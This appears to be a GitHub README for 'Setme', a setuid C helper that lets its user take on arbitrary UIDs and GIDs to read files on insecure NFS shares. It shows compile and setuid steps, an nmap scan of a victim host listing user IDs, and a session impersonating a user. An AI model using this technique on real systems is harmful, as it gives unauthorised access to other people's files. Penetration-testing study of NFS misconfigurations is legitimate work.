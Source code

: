 # Setme

**A simple binary made in C to make exploitation of insecure NFS systems easier from Linux host.**  
This one binary avoids having to add users and groups (and later deleting) when going through many different users NFS directories.
##

**Installation:**  
Download the file setMe.c from the repo.

Compile with:  
**gcc setme.c -o setMe**
Then:  
sudo chown root:root ./setMe && sudo chmod gu+s ./setMe

*Considerations:*  
I would make sure you keep access to this binary very restricted, or delete after use- but I guess you know that since your a pro.

##
**Usage:  
sudo nmap --script=nfs-ls** victimIP
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-09 15:08 MST  
Nmap scan report for 10.10.10.10  
Host is up (0.097s latency).  
Not shown: 993 closed ports  
PORT STATE SERVICE  
22/tcp open ssh  
25/tcp open smtp  
80/tcp open http  
110/tcp open pop3  
111/tcp open rpcbind  
| nfs-ls: Volume /home  
| access: Read Lookup NoModify NoExtend NoDelete NoExecute  
| PERMISSION **UID GID** SIZE TIME FILENAME  
| drwxr-xr-x 0 0 4096 2015-09-17T13:21:59 .  
| drwxr-xr-x 0 0 4096 2015-01-07T10:56:34 ..  
| drwxr-xr-x **1013 1013** 4096 2016-11-23T10:17:47 mike  
| drwxr-xr-x **1012 1012** 4096 2012-01-23T11:20:40 alex 
| drwxr-xr-x **1011 1011** 4096 2017-06-23T10:32:52 jeff
| drwxr-xr-x **1014 1014** 4096 2015-12-1T21:11:51 james  
|_  
119/tcp open nntp  
2049/tcp open nfs

Say we want to get into **mikes files**, we execute our binary with:  
**./setME 1013 1013**  
Then we can get varying levels of access to the files depending on how the permissions are set up on the share. 

**Another example:**  
pop@kali:/setme/$ **./setMe 1013 1013**  
$ **id**  
uid=1013 gid=1013 groups=1013  
  
  
We are now free to browse the nfs folder shares pertaining to the uid and gid in this shell.
To exit the shell type "exit".


